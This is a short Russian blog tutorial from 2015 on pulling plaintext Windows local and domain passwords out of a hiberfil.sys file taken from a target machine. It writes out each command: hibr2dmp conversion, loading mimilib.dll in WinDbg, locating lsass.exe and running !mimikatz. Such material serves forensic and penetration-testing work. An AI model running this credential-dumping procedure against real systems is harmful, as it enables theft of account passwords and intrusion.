 ```yaml
---
title: "Восстановливаем локальные и доменные пароли из hiberfil.sys"
date: 2015-02-16
---
```


Утилита [mimikatz](http://blog.gentilkiwi.com/mimikatz), позволяющая извлекать учётные данные Windows из LSA в открытом виде, существует с 2012 года, однако помимо этой функции появилась возможность восстановить пароли из файла памяти работающей ОС у неё есть ещё одна полезная функция. Далее я приведу пошаговую инструкцию, как при помощи нехийтрых действий извлечь учётные данные из файла hiberfil.sys.  
  


###  **Подготовка**

  
Для осуществления данного нам понадобится следующие утилиты:  

  * [Debugging Tools for Windows](https://msdn.microsoft.com/en-us/library/windows/hardware/ff551063\(v=vs.85\).aspx)
  * [Windows Memory toolkit](http://www.moonsols.com/windows-memory-toolkit/) free edition
  * И, собственно, сам [mimikatz](https://github.com/gentilkiwi/mimikatz/releases/latest)



###  **Действия**

1\. Получаем файл hiberfil.sys с целевой машины.

2\. Конвертируем файл в формат понятный WinDbg

**hibr2dmp.exe d:\temp\hiberfil.sys c:\temp\hiberfil.dmp**

**  
**

Процесс может занять довольно продолжительное время

[![](/images/1.jpg)](/images/1.jpg)

3\. Запускаем WinDbg и открываем полученный файл

**File  -**> **Open Crash Dump**

4\. Настраиваем отладочные символы

**SRV*c:\symbols*http://msdl.microsoft.com/download/symbols**

Вместо c:\symbols, естественно, может быть любой каталог, в который будут загружены символы

[![](/images/2.png)](/images/2.png)

5\. Указываем путь к библиотеке mimilib.dll (находится в каталоге с mimikatz)

0: kd> **.load z:\Soft\Security\Passwords\Mimikatz\x64\mimilib.dll**

6\. Находим адрес процесса lsass.exe

0: kd> **!process 0 0 lsass.exe**

В данном случае адрес: fffffa800a7d9060

7\. Переключаем контекст процесса

0: kd> **.process /r /p fffffa800a7d9060**

8\. Запускаем mimikatz и получаем пароль в открытом виде

0:kd>** !mimikatz**



